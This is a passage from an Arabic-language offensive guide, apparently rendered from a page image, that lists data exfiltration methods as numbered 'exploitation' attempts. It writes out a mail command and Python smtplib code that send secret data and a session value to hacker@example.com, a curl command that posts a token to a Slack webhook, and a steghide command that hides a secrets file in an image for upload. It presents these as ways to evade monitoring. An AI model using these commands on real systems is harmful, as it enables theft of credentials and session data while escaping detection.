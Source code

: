 ### 💥 الاستغلال:

```bash
echo "Secret data: abc123" | mail -s "Exfil" hacker@example.com
```

أو باستخدام Python:

```python
import smtplib
server = smtplib.SMTP('smtp.example.com')
server.sendmail("from@example.com", "hacker@example.com", "session=abc123")
```

### 📌 النتيجة:
- بيانات تخرج عبر قناة لا يتم مراقبتها دائمًا.
- مناسب في البيئات التي تسمح بالSMTP فقط.

---

## 🔍 المحاولة #8: استخدام Slack/Webhooks لتسجيل البيانات

### ⚙️ الفكرة:
استخدام Webhook من Slack أو أي برنامج داخلي لتلقي البيانات مباشرة.

### 💥 الاستغلال:

```bash
curl -X POST -H 'Content-type: application/json' \
--data '{"text":"New Token: abc123"}' \
https://hooks.slack.com/services/XXXXXX/XXXXXX/XXXXXXXXXXX
```

### 📌 النتيجة:
- بيانات تظهر مباشرة في Slack أو نظام آخر.
- يصعب رصدها إن كانت القناة خاصة.

---

## 🔍 المحاولة #9: استخدام Steganography لإخفاء البيانات

### ⚙️ الفكرة:
إخفاء بيانات داخل صور أو ملفات PDF أو حتى HTML.

### 💥 الاستغلال:

```bash
steghide embed -cf image.jpg -ef secrets.txt -p password
```

ثم رفع الصورة إلى موقع أو إرسالها عبر البريد.

### 📌 النتيجة:
- البيانات الخارجية تبدو طبيعية.
- يتطلب Tool لفك التشفير.

---
